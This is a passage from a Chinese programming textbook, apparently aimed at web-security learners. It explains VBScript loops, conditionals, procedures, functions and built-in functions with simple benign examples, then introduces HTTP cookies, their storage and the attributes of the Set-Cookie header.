- Do………Loop：当（或直到）条件为 True 时循环
- While………Wend：当条件为 True 时循环
- For…………Next：指定循环次数，使用计数器重复运行语句
- For Each…………Next：对于集合中每项或数组中的每个元素，重复执行一组语句

使用条件语句和循环语句可以控制 Script 的流程。使用条件语句可以编写进行判断和重复操作的 VBScript 代码。在 VBScript 中可使用以下两种条件语句：

- If………Then……Else 语句
- Select…..Case 语句

下面依次介绍这些语句的基本使用方法。

### Do………Loop循环

可以使用 Do………Loop 语句来多次运行语句块。当条件为 True 的时候，或者条件变为 True 之前，重复执行语句块。Do………Loop 有两种执行方式，下面分别来介绍一下。

(1) 当条件为 True 时重复执行语句  
这种方式的使用格式如下所示：

```vb
Do While (条件语句)
    '执行语句块
Loop
```

Do While…..Loop 对条件求值，如果条件为真，则对条件后面的语句求值。完成了上述操作后再次对条件求值，如果条件还是为真，则再次对语句进行求值。它不断重复该过程，直到条件为 False 的时候为止。

这种方式还有另外一种使用方式，如下所示：

```vb
Do
    '执行语句块
Loop While (条件语句)
```

Do…….Loop While 先对语句求值一次，然后再对条件求值；如果条件为真，则再对语句求值。该过程持续进行，直到条件为 False 时为止。

上面的两种方式的区别在于：Do While…..Loop 是先进行条件判断之后再执行语句块，如果条件为 False，那么语句块就一次也不执行，即语句块循环零次或者多次；而 Do…….Loop While 是先执行一次语句块之后再判断条件是否为真，即语句块至少执行一次，而不论条件为真还是假。

示例 4-19 演示了搜索输入字符串中数字第一次出现的位置。如果发现了数字，则返回该数字的位置，否则返回 -1。例子的代码如下：

```html
<html>
<head>
<title>第一次出现数字的位置</title>
</head>
<SCRIPT LANGUAGE="VBScript">
<!--
Dim inString, c
inString = "曾云好是于1987年10月出生的"
Dim i, strLen, formula
i = 1
strLen = Len(inString)  '函数Len是返回字符串内字符的数目，这里返回16
formula = -1
Do While (i <= strLen) And (formula = -1)
    c = Mid(inString, i, 1)  '函数Mid从字符串中返回指定数目的字符
    If IsNumeric(c) Then formula = i
    '函数IsNumeric返回Boolean值，指明表达式的值是否为数字
    i = i + 1
```

```html
Loop
msgbox "数字第一次出现的位置是" & formula

-->
</SCRIPT>
<body>
第一次出现数字的位置
</body>
</html>


```

在本例中，我输入的字符串是“曾云好是于1987年10月出生的”，公式返回6，即数字1的位置是第6个，运行结果如图4-32所示。
图4-32

##### (2) 重复执行语句直到条件变为 True

这种方式的使用格式如下所示：

```vb
Do Until (条件语句)
    '执行语句
Loop
```

Do Until……Loop 与 Do While……Loop 很相似，不同的是它是一直对语句求值直到条件为真，而不是当条件为真时对语句求值，即只要条件表达式为 False 或零，而不是为 True 或非零时，循环才被执行。

与上面相对应，此种方式还有另外一种使用方式，如下所示：

```vb
Do
    '执行语句
Loop Until (条件语句)
```

它们之间的区别和上面是一样的，只是判断条件变成相反而已。

##### (3) 退出循环

```vb
Do Until 或 While (条件语句)
    '如果条件符合
        '执行代码
    '如果条件不符合
        Exit Do    '退出循环
Loop
```

Exit Do 语句用于退出 Do……Loop 循环，因为通常只是在某些特殊的情况下要退出循环。

## While……Wend 循环

该循环的使用格式如下：

```vb
While (条件语句)
    '执行语句
Wend
```

While 循环与 Do While……Loop 相似，不同的是它不支持 Exit 语句。

## For……Next 循环

在编程的时候如果我们不知道循环多少次语句时，Do 循环可以发挥很好的作用。但是如果我们知道循环的次数，那么 For……Next 是更好的一个选择。与 Do 循环不同，For 循环可以使用 counter 变量，该变量的值将在每次重复循环的过程中递增或者递减。语法如下所示：

```vb
For counter [As datatype] = start To end [Step step]
    [执行语句]
    [Exit For]
    [执行语句]
Next
```

For 相对来说要复杂一些，下面解释其中的重要参数。符号 [] 表示里面的参数是可选的。变量 counter 必须是支持大于或等于(>=)、小于或等于(<=)和加法(+)运算符的数字数据类型，通常为 Integer。迭代值 start、end 和 step 是必须可计算数据类型的表达式，扩展为 counter 类型，通常它们都是 Integer。可选项 step 可以为正也可以为负，如果省略的话，则采用 1。如果没有在循环外面声明 counter，那么可以在 For 语句中使用 As 子句声明该变量。

开始执行 For……Next 循环时，VBScript 计算 start、end 和 step，然后将 start 赋予 counter。执行语句之前，先将 counter 与 end 进行比较，如果 counter 已经超过了结束值，则 For 循环终止，控制传递给 Next 语句后面的语句，否则执行该语句块。

每次 VBScript 遇到 Next 语句时，都按 step 递增计数器，然后返回到 For 语句。它再次将计数器与 end 进行比较，并根据结果执行块或者终止循环。这个过程不断继续，直到计数器超过 end 或执行了 Exit For 语句为止。

当 counter 超过结束值后，循环就会终止。如果 counter 等于 end，则循环继续。如果 step 为正数，确定是否执行循环代码块的比较运算为 counter<=end；如果 step 为负数，则为 counter>=end。

上面就是对 For 循环的解释，比较理论和笼统。对于没有编程基础的朋友来说，理解起来有一些困难。下面通过几个小例子来演示 For……Next 循环，用以让大家增加对它的理解程度。

使用 step 关键字可以按指定的值递增或者递减计数器，在下面的两个例子中分别通过一个递增、一个递减来演示。

若要增加计数器变量，可以使用正数的 step。这样做之后，应指定大于起始值的结束值。在下面的示例中，计数器变量 J 每次循环递增 2。循环结束后，Total 为 2、4、6、8 和 10 的总和。

```vb
Dim J, Total
For J = 2 To 10 Step 2
    'J的值从2到10，而且每次增加2，所以J的值有2、4、6、8、10
    Total = Total + J
    '循环体的动作是将每次循环产生的J值相加，直到J的值为10之后循环结束
Next
MsgBox("The Total is " & Total)
```

若要减少计数器变量，可使用负数的 Step 值。这样做之后，应指定小于起始值的结束值。在下面的示例中，计数器变量 N 每次循环递减 2。循环结束后，Total 为 16、14、12、10、8、6、4 的总和。

```vb
Dim N, Total
For N = 16 To 4 Step -2
    'N的值从16到4，而且每次递减2，所以N的值有16、14、12、10、8、6、4
    Total = Total + N
    '循环体的动作是将每次循环产生的N值相加，直到N的值为4之后循环结束
Next
MsgBox("The Total is " & Total)
```

使用 Exit For 语句可在计数器超过其结束值之前退出 For……Next 循环。例如，如果检测到使继续迭代不必要或不可能的条件，则要退出循环。

示例4-20利用 For 循环，每次递增为 1，求出了 1 到 100 的总和，代码如下：

```html
<html>
<head>
<title>1到100的总和</title>
</head>
<body>
<script language="VBScript">
<!--
Dim j, total
For j = 1 To 100
    total = total + j
Next
MsgBox "1到100的总和为 " & total
-->
</script>
</body>
</html>


```

运行之后结果如图4-33所示，其结果为5050。
图4-33

前面简单介绍了几种常用的循环语句，接下来介绍几种常用的条件语句。

## If……Then……Else 条件语句

If……Then……Else 语句用于计算条件是否为 True 或 False，并且根据计算结果指定要运行的语句。通常，条件是使用比较运算符对值或变量进行比较的表达式。

If……Then……Else 语句的使用格式如下：

```vb
If condition [Then]
    [statements]
[ElseIf elseifcondition [Then]
    [elseifstatements]]
[Else
    [elsestatements]]
End If
```

下面对其中重要的参数做说明。

- **condition**：必选项，表达式。为 condition 提供的表达式必须计算为 True 或 False，或者计算为能够隐式转换为 Boolean 的数据类型。
- **statements**：在多行格式中是可选项，在没有 Else 子句的单行格式中是必选项。跟在 If……Then 后面的一条或多条语句，当 condition 为 True 时将执行这些语句。
- **elseifcondition**：如果存在 ElseIf，则必选项，功能与 condition 相同。
- **elseifstatements**：可选项，跟在 ElseIf……Then 后面的一条或多条语句，当相关的 elseifcondition 为 True 时将执行这些语句。
- **elsestatements**：在多行格式中是可选项；在有 Else 子句的单行格式中是必选项。当前面的 condition 或 elseifcondition 表达式都不为 True 时执行的一条或多条语句。
- **End If**：终止 If…Else 块。

上面的解释同样比较理论和笼统，下面通过 If……Then……Else 语句的几种使用格式来具体说明其用法。

- (1) 如果条件为 True，则执行语句。  
如果要在条件为 True 时运行单行语句，则可使用 If……Then……Else 的单行语法。下面示范了单行语法，需注意这里省略了关键字 Else。

```vb
Dim myDate
myDate = #2007/1/25#
If myDate < Now Then myDate = Now
```

如果要运行多行代码，则必须使用多行（或块）语法。多行语法包含 End If 语句，如下所示：

```vb
Dim age
Age = 15
If age > 18 Then
    MsgBox "你已经长大成人了！"
End If
```

- (2) 条件为 True 和 False 时分别运行某些语句  
可以使用 If……Then……Else 语句定义两个可执行语句块：条件为 True 时运行某一语句块，条件为 False 时运行另一语句块，如下示例：

```vb
Dim age
Age = 15
If age > 18 Then
    MsgBox "你已经长大成人了！"
Else
    MsgBox "你还是小孩子咯！"
End If
```

- (3) 对多个条件进行判断  
If……Then……Else 语句的变形允许从多个条件中选择，即增加 ElseIf 子句以扩充 If……Then……Else 语句的功能，使得可以控制基于多种可能的程序流程。如下示例：

```vb
Dim age
Age = 15
If age < 18 Then
    MsgBox "你还未成年哦"
ElseIf age > 18 And age < 40 Then
    MsgBox "人到中年了哦"
Else
    MsgBox "人到老年了哦"
End If
```

示例4-21演示了利用 If……Then……Else 语句的一个成绩分类功能：如果学生成绩在60分以内为不及格，60-80分为及格，80-90分为良好，90分以上为优秀。

```html
<html>
<head>
<title>if...then...else示例</title>
</head>
<body>
<script language="VBScript">
<!--
Dim myValue
myValue = 95
If myValue < 60 Then
    document.write "你不及格！"
ElseIf myValue >= 60 And myValue < 80 Then
    document.write "你刚刚及格！"
ElseIf myValue >= 80 And myValue < 90 Then
    document.write "你的成绩不错，获得良好！"
Else
    document.write "恭喜你，你获得优秀！"
End If
-->
</script>
</body>
</html>


```

由于开始设定成绩为95分，所以输出结果为优秀，如图4-34所示。
图4-34

## Select……Case 语句

Select……Case 结构提供了 If……Then……Else 结构的一个变通形式，可以从多个语句块中选择执行其中一个。Select……Case 结构在其开始处使用一个只计算一次的简单测试表达式。表达式的结果将与结构中的每个 Case 的值比较，如果匹配，则执行与该 Case 关联的语句块。

Select……Case 语句的使用格式如下：

```vb
Select [Case] testexpression
    [Case expressionlist
        [statements]]
    [Case Else
        [elsestatements]]
End Select
```

下面对重要参数进行说明。

- **testexpression**：必选项，必须是某个基本数据类型，如数值、字符等。
- **expressionlist**：在 Case 语句中是必选项。表达式子句列表表示 testexpression 的匹配值，多个表达式子句以逗号隔开。每个子句都可以采用下面某一种形式：
  - `expression1 To expression2`
  - `[Is] comparisonoperator expression`
  - `expression`  
  使用关键字 To 指定 testexpression 的匹配值范围边界。expression1 的值必须小于或等于 expression2 的值。
- **statements**：可选项，Case 后面的一条或多条语句，当 testexpression 匹配 expressionlist 中任何子句时执行。
- **elsestatements**：可选项，Case Else 后面的一条或多条语句，当 testexpression 不匹配任何 Case 语句的 expressionlist 中任何子句时执行。
- **End Select**：终止 Select……Case 语句。

下面通过示例演示 Select……Case 语句的基本用法：

```vb
Select Case Number
    Case 1 To 5
        MsgBox "between 1 to 5"
    Case 6, 7, 8
        MsgBox "between 6 to 8"
    Case 9 To 10
        MsgBox "between 9 to 10"
    Case Else
        MsgBox "Not between 1 to 10"
End Select
```

示例4-22演示了 Select……Case 语句的用法，根据数字来判断某人是哪里人。代码如下：

```html
<html>
<head>
<title>select case示例</title>
</head>
<body>
<script language="VBScript">
<!--
Dim whereNum
whereNum = 3
Select Case whereNum
    Case 1
        MsgBox "你是江西人"
    Case 2
        MsgBox "你是湖南人"
    Case 3
        MsgBox "你是北京人"
    Case Else
        MsgBox "你是上海人"
End Select
-->
</script>
</body>
</html>


```

因为一开始设定的值为3，所以执行后的结果是北京人，如图4-35所示。
图4-35

## 4.4.3 VBScript的过程和函数

过程和函数是提高编码效率、有效减少代码复杂度并便于维护的重要手段。对于一些常用功能，可以利用过程和函数来模块化。过程和函数的区别在于：过程没有返回值，而函数有返回值。前面也用到过过程和函数，下面对其进行详细讲解。

## VBScript的过程

Sub 过程是包含在 Sub 和 End Sub 语句之间的一组 VBScript 语句，执行操作但不返回值。Sub 过程可以使用参数（由调用过程传递的常数、变量或表达式）。如果 Sub 过程没有任何参数，则 Sub 语句必须包含空括号 `()`。过程的定义格式如下：

```vb
Sub 过程名(参数)
    '代码
End Sub
```

调用过程的语法是：`Call 过程名(参数)`。解释过程最好的方法就是通过示例来说明，下面将示例4-22中的判断语句用一个过程来实现。代码如下：

```html
<html>
<head>
<title>过程演示</title>
</head>
<body>
<script language="VBScript">
<!--
Call FindPeople(2)
Sub FindPeople(whereNum)
    Select Case whereNum
        Case 1
            MsgBox "你是江西人"
        Case 2
            MsgBox "你是湖南人"
        Case 3
            MsgBox "你是北京人"
        Case Else
            MsgBox "你是上海人"
    End Select
End Sub
-->
</script>
</body>
</html>


```

代码执行结果如图4-36所示。
图4-36

上述代码中，我们使用了标记对 Sub 和 End Sub 将判断语句都包含在里面，而该过程有一个名称即 FindPeople。FindPeople 括号中的变量为参数，whereNum 参数可以被过程中的代码使用。因为过程不会自动运行，因此必须有外面的语句调用。在过程前面使用了调用语句 `Call FindPeople(2)`，其中 2 就是传递过来的参数，然后过程 FindPeople 根据参数 2 计算得到当前来自湖南，并弹出对话框。

## VBScript的函数

VBScript 的函数和过程基本类似，唯一的区别就是函数有返回值。同时在函数的定义上，使用关键字 `Function`，因此函数是包含在 Function 和 End Function 之间的一段代码。函数的定义格式如下：

```vb
Function 函数名(参数) [As 类型]
    '代码
End Function
```

由于函数过程可以返回值，因此函数过程也就有了数据类型，其通过语法中的 As 子句确定。

在函数过程内，可以通过以下语句格式将结果返回：`函数名 = 表达式`。例如：

```vb
Function MyFunc(X As Integer)
    MyFunc = X * X + 10
End Function
```

还可以调用函数过程，其基本语法为：`变量 = 函数名(参数)`。例如：

```vb
Dim MyReturn
MyReturn = FunName(参数)
```

前面介绍了一个计算1到100这100个数值之和的例子，下面将通过一个函数来实现这个过程。给定一个正整数，通过函数 SumTotal 可以计算出从1到该整数之间所有数值的和。代码如下：

```html
<html>
<head>
<title>函数演示</title>
</head>
<body>
<script language="VBScript">
<!--
Dim myNum
myNum = 100
Function SumTotal(number)  '定义一个函数
    Dim j
    For j = 1 To number
        SumTotal = SumTotal + j
    Next
End Function
MsgBox "从1到" & myNum & "的总和为" & SumTotal(myNum)  '调用函数
-->
</script>
</body>
</html>


```

代码执行后的结果如图4-37所示。
图4-37

## 4.4.4 VBScript中常用的函数

在VBScript中有许多内部函数，通过使用这些函数，可以很快地完成应用。下面我给大家讲解一些比较常用而且与安全联系比较紧密的函数。

- 1. `Trim(string)`  
  这个函数的作用是除去字符串 string 两端的空格，这个函数经常在过滤空格上运用得最多，是取得参数后所必须进行的一个操作。与之类似的函数还有 `Ltrim(string)`，作用为除去字符串左边的空格；还有 `Rtrim(string)`，作用是除去字符串右边的空格。
- 2. `Ucase(string)`  
  这个函数的作用是把字符串 string 中的字符转换成大写。与之相反的函数是 `Lcase(string)`，作用当然是把字符串 string 中的字符转换成小写。
- 3. `Abs(num)`  
  这个函数的作用是返回 num 的绝对值。
- 4. `Now()`  
  这个函数返回系统的日期和时间。与之相类似的函数有 `Date()`，返回系统当前日期；`Time()`，返回系统当前的时间。
- 5. `IsNumber(var)`  
  这个函数是如果 var 是个数字，则返回 true，否则返回 false。与之相对应的函数有 `IsArray(var)`、`IsDate(var)`、`IsEmpty(var)` 等等。
- 6. `InputBox` 函数  
  是一个输入框函数，在对话框中显示提示，等待用户输入文本或单击按钮，并返回文本框内容。

```vb
InputBox(prompt[, title][, default][, xpos][, ypos][, helpfile, context])
```

其参数说明如下：

- **Prompt：**作为消息显示在对话框中。prompt 的最大长度大约是 1024 个字符，这取决于所使用的字符的宽度。如果 prompt 中包含多行，则可在各行之间用回车符 (Chr(13))、换行符 (Chr(10)) 或回车换行符的组合 (Chr(13) & Chr(10)) 以分隔各行。
- **Title：**显示在对话框标题栏中的字符串表达式。如果省略 title，则应用程序的名称将显示在标题栏中。
- **Default：**显示在文本框中的字符串表达式，在没有其它输入时作为默认的响应值。如果省略 default，则文本框为空。
- **Xpos：**数值表达式，用于指定对话框的左边缘与屏幕左边缘的水平距离（单位为缇）。如果省略 xpos，则对话框会在水平方向居中。
- **Ypos：**数值表达式，用于指定对话框的上边缘与屏幕上边缘的垂直距离（单位为缇）。如果省略 ypos，则对话框显示在屏幕垂直方向距下边缘大约三分之一处。
- **Helpfile：**字符串表达式，用于标识为对话框提供上下文相关帮助的帮助文件。如果已提供 helpfile，则必须提供 context。
- **Context：**数值表达式，用于标识由帮助文件的作者指定给某个帮助主题的上下文编号。如果已提供 context，则必须提供 helpfile。

如果同时提供了 helpfile 和 context，就会在对话框中自动添加“帮助”按钮。如果用户单击确定或按下 ENTER，则 InputBox 函数返回文本框中的内容。如果用户单击取消，则函数返回一个零长度字符串 ("")。下面例子利用 InputBox 函数显示一个输入框并且把字符串赋值给输入变量：

```html
<html>
<head>
<title>函数演示</title>
</HEAD>
<body>
<Script Language=VBScript>
Dim Input
Input = InputBox("输入名字","输入框","曾云妍")
MsgBox ("输入：" & Input)
</Script>
</body>
</html>


```

代码运行后，其结果如图 4-38 和 4-39 所示。
图 4-38
图 4-39

## (7)、MsgBox 函数

这是一个消息框函数，在对话框中显示消息，等待用户单击按钮，并返回一个值指示用户单击的按钮。语法为 `MsgBox(prompt[, buttons][, title][, helpfile, context])`。

其参数说明如下：

- **Prompt：**作为消息显示在对话框中的字符串表达式。prompt 的最大长度大约是 1024 个字符，这取决于所使用的字符的宽度。如果 prompt 中包含多行，则可在各行之间用回车符 (Chr(13))、换行符 (Chr(10)) 或回车换行符的组合 (Chr(13) & Chr(10)) 分隔各行。
- **Buttons：**是表示指定显示按钮的数目和类型、使用的图标样式、默认按钮的标识以及消息框样式的数值的总和。有关数值，请参阅“设置”部分。如果省略，则 buttons 的默认值为 0。

buttons 参数可以有以下值，如表 4-8 所示：

| 常量 | 值 | 说明 |
|---|---:|---|
| vbOKOnly | 0 | 只显示确定按钮。 |
| vbOKCancel | 1 | 显示确定和取消按钮。 |
| vbAbortRetryIgnore | 2 | 显示放弃、重试和忽略按钮。 |
| vbYesNoCancel | 3 | 显示是、否和取消按钮。 |
| vbYesNo | 4 | 显示是和否按钮。 |
| vbRetryCancel | 5 | 显示重试和取消按钮。 |
| vbCritical | 16 | 显示临界信息图标。 |
| vbQuestion | 32 | 显示警告查询图标。 |
| vbExclamation | 48 | 显示警告消息图标。 |
| vbInformation | 64 | 显示信息消息图标。 |
| vbDefaultButton1 | 0 | 第一个按钮为默认按钮。 |
| vbDefaultButton2 | 256 | 第二个按钮为默认按钮。 |
| vbDefaultButton3 | 512 | 第三个按钮为默认按钮。 |
| vbDefaultButton4 | 768 | 第四个按钮为默认按钮。 |
| vbApplicationModal | 0 | 应用程序模式：用户必须响应消息框才能继续在当前应用程序中工作。 |
| vbSystemModal | 4096 | 系统模式：在用户响应消息框前，所有应用程序都被挂起。 |

表 4-8

第一组值（0–5）用于描述对话框中显示的按钮类型与数目；第二组值（16、32、48、64）用于描述图标的样式；第三组值（0、256、512、768）用于确定默认按钮；而第四组值（0、4096）则决定消息框的样式。在将这些数字相加以生成 buttons 参数值时，只能从每组值中取用一个数字。

- **Title：**显示在对话框标题栏中的字符串表达式。如果省略 `title`，则将应用程序的名称显示在标题栏中。
- **Helpfile：**字符串表达式，用于标识为对话框提供上下文相关帮助的帮助文件。如果已提供 helpfile，则必须提供 context。在 16 位系统平台上不可用。
- **Context：**数值表达式，用于标识由帮助文件的作者指定给某个帮助主题的上下文编号。如果已提供 context，则必须提供 helpfile。在 16 位系统平台上不可用。

MsgBox 函数有以下返回值，如表 4-9 所示：

| 常量 | 值 | 按钮 |
|---|---:|---|
| vbOK | 1 | 确定 |
| vbCancel | 2 | 取消 |
| vbAbort | 3 | 放弃 |
| vbRetry | 4 | 重试 |
| vbIgnore | 5 | 忽略 |
| vbYes | 6 | 是 |
| vbNo | 7 | 否 |

表 4-9

下面的例子演示了 MsgBox 函数的用法：

```html
<html>
<head>
<title>函数演示</title>
</HEAD>
<body>
<Script Language=VBScript>
Dim MyVar
MyVar = MsgBox("Hello World!", 65, "MsgBox Example")
</Script>
</body>
</html>


```

代码运行之后的结果如图 4-40 所示。
图 4-40

## (8)、Eval 函数

它的作用是计算一个表达式的值并返回结果。表达式为 `[result = ]Eval(expression)`。其中，result 为可选项，是一个变量，用于接受返回的结果。如果未指定结果，应考虑使用 Execute 语句代替；expression 为必选项，可以是包含任何有效 VBScript 表达式的字符串。在 VBScript 中，`x = y` 可以有两种解释。第一种方式是赋值语句，将 y 的值赋予 x。第二种解释是测试 x 和 y 是否相等。如果相等，result 为 True；否则 result 为 False。Eval 方法总是采用第二种解释，而 Execute 语句总是采用第一种。下面的例子说明了 Eval 函数的用法：

```vb
Sub GuessANumber
  Dim Guess, RndNum
  RndNum = Int((100) * Rnd(1) + 1)
  ' Int 函数是返回数字的整数部分，Rnd 函数返回一个随机数
  Guess = CInt(InputBox("Enter your guess:",,0))
  ' CInt 函数返回表达式，此表达式已被转换为 Integer 子类型
  Do
    If Eval("Guess = RndNum") Then
      MsgBox "祝贺你！猜对了！"
      Exit Sub
    Else
      Guess = CInt(InputBox("对不起，请再试一次",,0))
    End If
  Loop Until Guess = 0
End Sub
```

## (9)、Replace 函数

该函数返回字符串，其中指定数目的某子字符串被替换为另一个子字符串。语法为：

```vb
Replace(expression, find, replacewith[, compare[, count[, start]]])
```

- **Expression：**必选项。字符串表达式，包含要替代的子字符串。
- **Find：**必选项。被搜索的子字符串。
- **Replacewith：**必选项。用于替换的子字符串。
- **Start：**可选项。expression 中开始搜索子字符串的位置。如果省略，默认值为 1。
- **Count：**可选项。执行子字符串替换的数目。如果省略，默认值为 -1，表示进行所有可能的替换。
- **Compare：**可选项。指示在计算子字符串时使用的比较类型的数值。有关数值，请参阅“设置”部分。如果省略，缺省值为 0，这意味着必须进行二进制比较。

下面的示例利用 Replace 函数返回字符串：

```vb
Dim MyString
MyString = Replace("XXpXXPXXp", "p", "Y")  ' 二进制比较从字符串左端开始。返回 "XXYXXPXXY"。

MyString = Replace("XXpXXPXXp", "p", "Y", 3, , 1)  ' 文本比较从第三个字符开始。返回 "XXYXXY"。
```

## 4.5 使用Cookie

### 4.5.1 什么是Cookie

我们知道使用普通的可执行程序的时候，能够读、写、修改程序并运行计算机上的多种文件。这些可执行程序几乎能够以所有方式操作硬盘上任意位置的文件（当然在要求权限的操作系统中运行这些程序时需要合适的用户权限）。这种操作方式通常并不会出现什么问题，这是因为这些程序是由著名公司或用户开发的，它们都会以信誉保证这种访问方式不会出现不可预计的问题。但是在 Web 环境中，上面说的这种保证就不复存在了。因为能够访问网络、会使用文本编辑器的任何人都可能编写出具有破坏性的危险程序来。比如我们在浏览网站的时候经常被挂马，从而中了木马。

正是由于上述原因，在 Web 页面中使用的绝大多数编程语言都不允许编程者使用储存在客户端计算机上的文件。各种浏览器也都提供了一组规则，阻止发生上述情况。

接触过协议的朋友应该都知道，我们的浏览器是使用 HTTP 协议访问 Web 页面。HTTP 是一种无状态协议，也就是说，在浏览器和服务器之间完成一次会话后，就丢弃了这个连接。浏览器和服务器都不会保存这次会话之间的状态。但是随着互联网的发展，如今我们可以使用购物车购买各种物品、订购各种东西，我想很多朋友都有在网上购买东西的经历吧，国内较出名的有易趣等等。而对于像易趣这样的商家，记住客人的购买习惯、爱好、注册号、用户名就成为一种非常迫切的需要。

1994 年，Netscape 公司引入了 cookie 的概念。Cookie 是保存在客户端计算机，也就是运行浏览器的计算机中的一个短小文本文件，它用于 Web 站点在用户的计算机上保存信息并且以后再取回它，这些信息通常采用“名-值”对的方式存储。

Cookie 通常用来记录对一个 Web 站点的访问。比如，我们在易趣购买商品，为了方便网上采购，cookie 就可能保存所选择的商品，以及你的姓名、电子邮件地址等个人识别信息。为了帮助 Web 站点跟踪每一个来访人员，cookie 通常包含一个唯一的标识。当然，为你创建 cookie 的 Web 站点有责任告诉你 cookie 中存储了什么信息，以及这些信息如何被站点所使用。

我们可以在自己电脑的硬盘上找到存储的 cookie 文件，对于使用 Windows 操作系统、使用 IE 浏览器的朋友，通常可以在 `C:\Documents and Settings\用户名\Cookies` 目录中找到。

如果不是这个目录，可以利用 Windows 自带的搜索功能搜索关键字 cookies 也可找到。在这个文件夹里的每个 cookie 文件都是一个简单而又普通的文本文件。我们可以通过文件名看到是哪个 Web 站点在你的计算机中放置了 cookie 文件。

我访问自己电脑的 `C:\Documents and Settings\Administrator\Cookies` 目录中的 cookie 文件，以百度搜索引擎的 cookie 文件来做说明，其文件名为 `administrator@baidu[1].txt`，内容如下所示：

```text
BAIDUID
9D9DE43F143ABD236DB39C258D84A211
baidu.com/
1536
3368053120
32039905
1482168528
29835532
*


```

利用 cookie，可以使 Web 网页更加人性化、更加友好，它能够存储用户使用的语言、阅读习惯、网站访问次数、跟踪购物车中的物品等等。但是 cookie 带来了一些安全问题，在后面我会专门用一节来讲解这个，现在大家先跟着我打好基础，这样在后面会起到事半功倍的效果。Cookie 是 Web 世界中的一部分，但不是一定需要。我们可以根据自己的需要控制是否使用 cookie。如果不喜欢 cookie，那么可以关闭浏览器的 cookie 功能，并删除浏览器中的所有 cookie。例如，如果使用 IE 浏览器，那么可以通过选择菜单上的“工具”，再选择“Internet 选项”，在“常规”选项卡中通过单击“删除 cookies”按钮删除所有的 cookie，如图 4-41 所示；还可以通过单击“隐私”选项卡，调整隐私设置滑块，控制允许使用什么样的 cookie 或者阻止使用所有的 cookie，如图 4-42 所示。
图 4-41
图 4-42

Web 浏览器中的 cookie 只占据少量的存储空间，一般来说，浏览器中最多存储 300 个 cookie。每个 cookie 占据的存储空间不超过 4K 字节，因此存储不了多少信息。Cookie 文件的实际文件名和存储位置与操作系统和浏览器有关。Windows 下的 Netscape Navigator 将 cookie 保存在 Navigator 系统目录下的 `cookies.txt` 文件中，IE 将 cookie 存储在 `C:\Documents and Settings\用户名\Cookies` 目录中，cookie 的文件名则与用户名、网站名有关，但都是文本文件。

下面通过举例说明 cookie 数据的流动过程，即 cookie 的创建、改变等等。假设目前正在访问 `http://www.google.com` 网站。

- 1. 在浏览器的地址栏内输入网址 `http://www.google.com`，浏览器从本地计算机上寻找 Google 网站设置的 cookie 文件。如果找到了 Google 的 cookie 文件，浏览器会把文件中的所有“名-值”对同先前的 URL 一同发给 Google 服务器。如果没有找到，就不发送 cookie 数据，而只发送 URL。
- 2. Google 服务器接受 cookie 数据和对网页的请求。如果存在“名-值”对，Google 将使用它。
- 3. 如果服务器没有收到“名-值”对，Google 知道在此之前没有访问过它的站点，服务器会为你创建一个新的 ID 并放进 Google 的数据库中，然后把“名-值”对放在要传回网页的头信息里，并传递给你。这样你的浏览器将在硬盘上的 cookie 文件中保存“名-值”对。
- 4. 以后每当你再次访问网站时，网站服务器就会改变“名-值”对或增加新的“名-值”对。除此之外，服务器还会随着“名-值”对发送一些其他的信息，主要包括生存期和路径，这样网站借此把不同的 cookie 值与不同的网站部位关联起来。

## 4.5.2 Cookie的组成

### 1. Cookie的语法格式

一般情况下，Cookie通常由服务器端的程序通过HTTP请求和响应头发送给浏览器。但是，利用 JavaScript，可以在本地浏览器中设置 Cookie。这样做的好处是免除了服务器端程序处理 Cookie 的工作，从而降低服务器的负担。Cookie 在默认情况下其生命周期是当前会话范围，当前会话结束后，相应的 Cookie 也就被删除了。

Cookie 是由“名-值”对组成的文本。一个 Cookie 字符串中最多能够存储 20 个“名-值”对。对于每一个 HTML 文档来说，浏览器只存储一个 Cookie。在构造 Cookie 时，指定的“名-值”对的 `name=value` 称为属性。它必须使用分号作为结束符。在组成 Cookie 的字符串中，不允许使用分号、逗号以及空白符。

```text
HTTP Set-Cookie 头的格式为：

Set-Cookie:name=value;[expires=date];[path=pathname];[domain=domainname];[secure];
```

其中，方括号表示该属性可以省略，`name=value` 属性可以包含多个。例如：

```text
Set-Cookie:id="曾云好";expires=Wed,28-Feb-07 15:13:00 GMT;domain="google.com";path="/";secure;
```

### 2. Cookie属性详解

在设置 Cookie 之前，首先要理解 Cookie 各组成部分的意义和功能。下面简单介绍各属性的意义、功能及示例。

- 1) `name=value`

这个属性是指定 Cookie 数据项的名称。一般比较常见的名称包括会话标识、用户名称等，也可以指定喜欢的任何标识符作为该名称。该属性的语法格式：`nameofcookie=value;`

其中，`nameofcookie` 是 Cookie 的数据项的名称，`value` 是该名称对应的值，是一个字符串。它可以由一系列字符组成，但不能含有分号 (`;`)、逗号 (`,`) 和空白符。如果在 `nameofcookie` 或 `value` 中包含这些字符，那么需要使用 URL 风格的 `%XX` 格式进行编码。名称属性是 Set-Cookie 头要求的必选属性。下面是名称属性的几个应用示例：

```text
id=123456789
email=zengyunhao0@tom.com
name=demon
```

- 2) `expires=date`

这是一个可选属性，它指定 Cookie 的过期日期。一般情况下，给 `date` 一个接近会话时间的日期时间值，这样在浏览器结束当前会话时，Cookie 就会过期，从而删除 Cookie。但是可以通过给 `expires` 属性指定一个较长的时间值，从而长久地保留该 Cookie。其格式为：

```text
expires=weekday,DD-MON-YY HH:MM:SS GMT
```

其中，`weekday` 为星期几，比如 Monday、Tuesday、Wednesday 等，也可以用缩写的星期几，比如 Mon、Tues、Wed 等；`DD-MON-YY` 指定日期，分别为日、月、年；`HH:MM:SS` 指定时间，分别为时、分、秒；`GMT` 表示该时间为格林威治标准时间，这里的日期时间总是使用 GMT。开发人员通过指定 `expires` 属性控制 Cookie 的过期日期，一旦 Cookie 已经过期，就会被自动删除。

下面是 `expires` 属性的几个示例：

```text
expires=Friday, 14-Jan-07 15:50:00 GMT
expires=Mon, 14-Jan-07 15:50:00 GMT
```

- 3) `path=pathname`

这是一个可选属性，指定 Cookie 可用于特定的服务器中的什么位置。在 Cookie 中指定路径，可以使同一个域中的多个页面共享 Cookie。例如：

```text
path=/home
path=/aa/bb/int
```

- 4) `domain=domainname`

这是一个可选属性，它指定所作用的域名后，可以在同一个域的多个服务器之间共享 Cookie，而无需为每一个服务器都指定 Cookie。`domainname` 为域名，可以使用完整的 URL 格式 `http://domain`，也可以使用省略 `http://` 的简写方式。例如：

```text
domain=www.google.com
domain=http://www.google.com
```

- 5) `secure`

这是一个可选属性，它指定是否通过安全通道传递 Cookie。如果设定了该属性，那么 Cookie 必须使用 HTTPS 协议进行传递。其语法格式为：`secure`

